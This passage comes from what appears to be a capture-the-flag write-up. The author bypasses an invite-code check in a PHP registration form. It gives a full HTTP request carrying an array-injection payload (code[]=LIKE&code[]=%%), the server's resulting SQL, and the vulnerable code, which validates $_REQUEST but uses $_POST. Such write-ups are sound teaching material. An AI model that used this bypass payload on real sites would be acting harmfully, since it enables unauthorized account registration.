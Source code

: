 At this point I changed the source code to remove the is_String check and send in this request to test.

```http
POST /register.php HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/register.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=lol&password=hi&code[]=LIKE&code[]=%%
```

And the server does the following:

```SQL
1. SELECT `id`, `username`, `password` FROM `users` WHERE `username` = 'lol' 2-
2. INSERT INTO `users` (`username`, `password`) VALUES ('lol', '$2y$12$wkWuq83HFSAWovB76Z2pe.gmKrZHbeju2btS0h9Tmg59SlhS1JQn.') RETURNING * shop-
```

PERFECT WE GOT IT


## The Problem

We just have 1 **big** problem, the server checks if the introduced `code` is a string.

This is when my colleague [@4v1at0r]( https://www.linkedin.com/in/4v1at0r) comes in and I start showing him my progress.

"The only problem is it doesn't accept arrays, only strings" - I say<br>
"Show me the code" - he says

And he immediately finds the vulnerability:

```php
if (isset($_REQUEST['username']) && isset($_REQUEST['password']) && isset($_REQUEST['code']) && is_string($_REQUEST['code'])) {
    if (is_valid_invite($_POST['code'])) {
```

The app is using `$_REQUEST['code']` on the check and `$_POST['code']` on `is_Valid_invite()`

How could I have missed that !

On PHP the variables in `$_REQUEST` are provided to the script via the GET, POST, and COOKIE input mechanisms, and in this order by default.
